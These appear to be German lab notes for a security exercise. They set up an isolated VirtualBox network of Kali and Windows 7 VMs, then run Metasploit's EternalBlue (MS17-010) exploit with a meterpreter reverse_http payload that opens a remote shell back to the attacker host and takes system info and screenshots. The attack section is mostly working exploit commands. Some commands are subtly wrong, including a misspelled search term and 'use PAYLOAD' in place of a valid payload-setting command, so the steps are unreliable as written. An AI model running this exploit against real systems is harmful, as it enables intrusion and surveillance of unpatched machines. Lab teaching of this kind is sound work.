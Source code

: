 # Labor 4

## 1. internes Netzwerk aufsetzen
__VirtualBox__:

`Tools > Network > NAT Networks > Create`

    - Name: vboxnet
    - IPv4 Prefix: 192.168.100.0/24
    - DHCP-Server deaktivieren

## 2. VMs aufsetzen
__VirtualBox__:

`New > follow the installation instructions`

    - User: zepi
    - Password: 123

in den Settings der VMs das Netzwerk auf das erstellte interne NAT Network setzen

## 3. Manuelle IP-Zuweisung
__Kali__: 

_während der Installation_

oder 

`StatusBar > Internet (right click) > Edit Connections...`

__Windows 7:__

`Netzwerk und Freigabecenter öffnen > LAN-Verbindung > Eigenschaften > Internetprotokoll Version 4 (TCP/IPv4)`

_Firewall deaktivieren_


__Verbindung Testen__

Win > Kali 
```powershell
ping 192.168.100.10
```
Kali > Win
```bash
ping 192.168.100.20
```

## 'eternalblue'-Exploit mit 'reverse_http'-Payload
__Kali__
```bash
msfconsole
```

```bash
search etrnalblue
use exploit/windows/smb/ms17_010_eternalblue
use PAYLOAD payload/windows/x64/meterpreter/reverse_http
set -g RHOSTS 192.168.100.20
set -g LHOST 192.168.100.10
exploit
```

Durch `-g` wird der Wert global gesetzt und muss nicht erneut gesetzt werden.

Exploit ausprobieren:
```bash
sysinfo
```

```bash
screenshot
```

Mit `exit` kann die shell wieder verlassen werden.
